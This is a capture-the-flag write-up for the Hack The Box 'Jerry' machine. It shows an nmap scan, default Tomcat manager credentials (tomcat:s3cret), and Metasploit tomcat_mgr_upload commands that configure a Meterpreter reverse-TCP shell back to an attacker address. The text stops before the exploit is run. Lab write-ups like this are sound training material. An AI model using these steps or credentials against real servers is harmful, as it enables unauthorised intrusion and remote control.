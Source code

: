 ![jerry](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Jerry/jerry.png)
\

## Enumeration

\
Start with an nmap scan:

\
```
nmap -A 10.10.10.95
```

\
```
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-07-26 15:18 EDT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.96 ms 10.10.14.1
2   104.81 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.45 seconds
```

\
Looks like the only port open is 8080, which is running Apache Tomcat 1.1.  Some research pointed me to a [metasploit module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) for logging into Apache Tomcat using default credentials.  Using this I got the credentials tomcat:s3cret.  Now we can use the [tomcat manager authenticated upload module](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component:

\
```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 10.10.10.95:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 10.10.14.232
lhost => 10.10.14.232
```

\


